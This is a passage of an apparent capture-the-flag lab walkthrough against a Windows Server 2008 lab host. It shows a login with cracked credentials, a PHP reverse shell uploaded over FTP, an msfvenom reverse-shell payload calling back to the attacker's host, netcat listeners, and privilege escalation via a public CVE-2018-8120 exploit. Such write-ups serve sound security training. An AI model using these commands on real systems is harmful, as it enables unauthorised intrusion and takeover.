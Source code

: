 ![[Cybersecurity-Resources/images/Pasted image 20241025203051.png]]
## Port 242 - HTTP (Apache/2.2.21)
- Navigated to `http://192.168.171.46:242` and identified web login
![[Cybersecurity-Resources/images/Pasted image 20241025201023.png]]
- Attempted password guessing with `admin:admin`, `root:root`, `admin:password` - unsuccessful.
- Attempted login with cracked credentials `offsec:elite` and accessed page
![[Cybersecurity-Resources/images/Pasted image 20241025203334.png]]
## Port 3389 - RDP 
- Attempted login with cracked credentials `offsec:elite` - unsuccessful
![[Cybersecurity-Resources/images/Pasted image 20241025203610.png]]

---
# Exploitation
- Created `shell.php` with reverse shell back to Kali host
![[Cybersecurity-Resources/images/Pasted image 20241025204143.png]]
- Ran `put shell.php` on `ftp` service as `admin` to upload reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241025204306.png]]
- Started netcat listener on port `1234` with `nc -nvlp 1234` then used web browser to navigate to `http://192.168.171.46:242/shell.php`, and received reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241025204007.png]]
---
# Lateral Movement to user
## Local Enumeration
- Navigated to `C:\Users\apache\Desktop` and ran `type local.txt` to print `98e8a3c01c8d7944c46cf806438ed074`
![[Cybersecurity-Resources/images/Pasted image 20241025204654.png]]
- Ran `systeminfo` to get host details, and identified OS Name `Microsoftr Windows Serverr 2008 Standard` with system-type `x86` architecture - OS is vulnerable to CVE-2018-8120
![[Cybersecurity-Resources/images/Pasted image 20241025220625.png]]
---
# Privilege Escalation
## CVE-2018-8120
 Identified Windows Kernel Exploit for CVE-2018-8120 from https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120 and downloaded `x86.exe` to Kali host
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.199 LPORT=80 -f exe > reverse.exe`
- Uploaded `x86.exe` & `reverse.exe` to target via `FTP` while logged in as `admin:admin`
- Started netcat listener on port `80`, then returned to reverse shell and ran `x86.exe reverse.exe`
![[Cybersecurity-Resources/images/Pasted image 20241026183414.png]]
- Checked reverse shell and found incoming connection
![[Cybersecurity-Resources/images/Pasted image 20241026183445.png]]
- Navigated to `C:\Users\Administrator\Desktop` and ran `type proof.txt` to print `fb1863d6c3980a8502ac04794d08b5a4`

---